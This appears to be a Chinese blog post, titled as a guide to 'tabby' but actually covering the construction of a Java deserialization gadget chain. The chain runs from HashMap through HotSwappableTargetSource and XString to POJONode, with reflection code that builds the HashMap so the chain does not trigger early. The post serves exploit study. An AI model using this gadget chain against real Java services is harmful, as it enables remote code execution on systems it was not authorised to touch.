 ```yaml
---
layout: post
title: tabby的安装及简单使用
categories: [blog ]
tags: [Java,]
description: ""
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: azeril.compu
---
```




```java
   HashMap hashMap = new HashMap();
        setFieldValue(hashMap, "size", 2);
        Class nodeC;

        nodeC = Class.forName("java.util.HashMap$Node");
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        //创建一个数组

        Array.set(tbl, 0, nodeCons.newInstance(0, h1, "whatever", null));
        Array.set(tbl, 1, nodeCons.newInstance(0, h2, "whatever", null));
        setFieldValue(hashMap, "table", tbl);
        serialize(hashMap);

        unserialize("ser.bin");
```

利用了反射的手段进行赋值，防止了序列化的时候进入equals方法执行命令。

### 解决一下以前的困扰

为啥不能直接hashmap#readObject--->XString#equals()方法，需要一个中间类

`org.springframework.aop.target.HowSwappableTargetSource#equals`

因为如果只利用XString的话，如果要满足hash相等说明key的值就相同，XString类中重写了hashcode方法，是计算str(_obj)的值，_obj是通过XString构造方法获得的，所以到这里obj2依然是XString类型

![image-20231126170809794](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231126170809794.png)

org.springframework.aop.target.HowSwappableTargetSource也重写了hashcode方法，并且hashcode基本相当于固定的

他这里关键是获得某个类的target属性，这样就很nice

通过这里触发 XString#equals,然后触发obj2.toString，二个参数就是二个类的target

![image-20231126170515867](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231126170515867.png)



这里就会明了了

首先触发 h2.equals(h1) --->h2.equals(h1)-->Xstring.equals(pojoNode2)-->pojoNod2.toString

```java
HotSwappableTargetSource h1 = new HotSwappableTargetSource(pojoNode2);
HotSwappableTargetSource h2 = new HotSwappableTargetSource(new XString("whatever"));

        // 手动构造 HashMap 以防触发正向利用链
        HashMap hashMap = new HashMap();
        setFieldValue(hashMap, "size", 2);
        Class nodeC;
        nodeC = Class.forName("java.util.HashMap$Node");
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, h1, "whatever", null));
        Array.set(tbl, 1, nodeCons.newInstance(0, h2, "whatever", null));
        setFieldValue(hashMap, "table", tbl);
```

## 最后

是判断key的hash，相等了才触发equals方法

![image-20231126171822128](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231126171822128.png)

31默认的hashcode计算，这个无需多言了

![image-20231126172100020](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231126172100020.png)
